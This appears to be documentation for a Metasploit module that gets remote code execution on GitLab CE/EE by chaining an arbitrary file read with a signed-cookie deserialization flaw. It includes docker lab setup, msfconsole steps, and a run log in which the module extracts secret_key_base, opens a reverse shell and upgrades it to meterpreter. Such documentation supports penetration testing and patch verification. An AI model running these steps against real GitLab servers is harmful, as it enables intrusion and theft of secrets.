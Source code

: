 ## Vulnerable Application

### Description

This module provides remote code execution against GitLab Community
Edition (CE) and Enterprise Edition (EE). It combines an arbitrary file
read to extract the Rails "secret_key_base", and gains remote code
execution with a deserialization vulnerability of a signed
'experimentation_subject_id' cookie that Gitlab uses internally for A/B
testing.

Note that the arbitrary file read exists in GitLab EE/CE 8.5 and later,
and was fixed in 12.9.1, 12.8.8, and 12.7.8. However, the RCE only affects
versions 12.4.0 and above when the vulnerable `experimentation_subject_id`
cookie was introduced.

Tested on GitLab 12.8.1 and 12.4.0.

### Setup

Running GitLab 12.8.1 with docker:

```
sudo docker run \
  --rm \
  --publish 443:443 --publish 80:80 --publish 22:22 \
  --name gitlab \
  gitlab/gitlab-ee:12.8.1-ee.0
```

The application will be available on port 80 or 443. This may take a long time.
You can either create a user account normally or programmatically as shown below.

Connect to the running gitlab instance:

```
sudo docker exec -it gitlab /bin/bash
```

Open an interactive rails console:

```
gitlab-rails console -e production
```

Optional - Set the Gitlab `root` account credentials:

```
admin = User.where(id: 1).first
admin.update!(
    password: 'password123',
    password_confirmation: 'password123',
    confirmation_token: nil,
    confirmed_at: Time.now,
    confirmation_sent_at: nil,
    failed_attempts: 0
)
admin.skip_reconfirmation!
```

Create a normal user account:

```
user = User.new(
    username: 'test',
    name: 'test',
    email: 'test@example.com',
    password: 'password123',
    password_confirmation: 'password123',
    confirmation_token: nil,
    confirmed_at: Time.now,
    confirmation_sent_at: nil,
    failed_attempts: 0
)
user.save!
user.skip_confirmation!
```

Once finished, kill the running docker container with:

```
docker kill gitlab
```

## Verification Steps

 1. Run the application
 1. Start msfconsole
 1. `use exploit/multi/http/gitlab_file_read_rce`
 1. `set RPORT <port>`
 1. `set RHOST <ip>`
 1. `set USERNAME test@example.com`
 1. `set PASSWORD password123`
 1. `check`

```
[*] 10.10.10.111:9999 - The target appears to be vulnerable.
```

 1. `set LPORT <port>`
 1. `set LHOST <ip>`
 1. `run`
 1. You should get a shell.

## Scenarios

```
msf6 exploit(multi/http/gitlab_file_read_rce) > options

Module options (exploit/multi/http/gitlab_file_read_rce):

   Name          Current Setting                             Required  Description
   ----          ---------------                             --------  -----------
   DEPTH         15                                          yes       Define the max traversal depth
   PASSWORD      password123                                 yes       The password for the specified username
   Proxies                                                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        127.0.0.1                                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<
                                                                       path>'
   RPORT         80                                          yes       The target port (TCP)
   SECRETS_PATH  /opt/gitlab/embedded/service/gitlab-rails/  yes       The path to the secrets.yml file
                 config/secrets.yml
   SSL           false                                       no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /users/sign_in                              yes       The path to the vulnerable application
   USERNAME      test@example.com                            yes       The username to authenticate as
   VHOST         gitlab.example.com                          no        The virtual host name to use in requests


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  docker0          yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(multi/http/gitlab_file_read_rce) > rerun

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Logged in to user test
[*] Created project /test/pKUuduxC
[*] Created project /test/5W350yP1
[*] created issue /test/pKUuduxC/issues/1
[*] Executing arbitrary file load
[+] File saved as: '/home/kali/.msf4/loot/20201121213408_default_127.0.0.1_gitlab.secrets_675303.txt'
[+] Extracted secret_key_base e41f3a01d22ff6a694be33bf2e5d40af89b788088938203c3478818da595731ada41c2b9c3d3caff79de7647a0c287bb68f6ca1912904a766237543013c46594
[*] Attempting to delete project /test/pKUuduxC
[*] Command shell session 23 opened (172.17.0.1:4444 -> 172.17.0.2:34058) at 2020-11-21 21:34:08 -0500
[*] Deleted project /test/pKUuduxC
[*] Attempting to delete project /test/5W350yP1
[*] Deleted project /test/5W350yP1

whoami
git
^Z
Background session 23? [y/N]  y
msf6 exploit(multi/http/gitlab_file_read_rce) > sessions -u 23
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [23]

[!] SESSION may not be compatible with this module.
[*] Upgrading session ID: 23
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 172.17.0.1:4433
[*] Sending stage (976712 bytes) to 172.17.0.2
[*] Meterpreter session 24 opened (172.17.0.1:4433 -> 172.17.0.2:45442) at 2020-11-21 21:34:34 -0500
[*] Command stager progress: 100.00% (773/773 bytes)
msf6 exploit(multi/http/gitlab_file_read_rce) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                                     Connection
  --  ----  ----                   -----------                                                     ----------
  23        shell ruby/ruby                                                                        172.17.0.1:4444 -> 172.17.0.2:34058 (127.0.0.1)
  24        meterpreter x86/linux  git @ 622b6a4c6722 (uid=998, gid=998, euid=998, egid=998) @ 17  172.17.0.1:4433 -> 172.17.0.2:45442 (172.17.0.2)
                                   2.17.0.2

msf6 exploit(multi/http/gitlab_file_read_rce) >
```
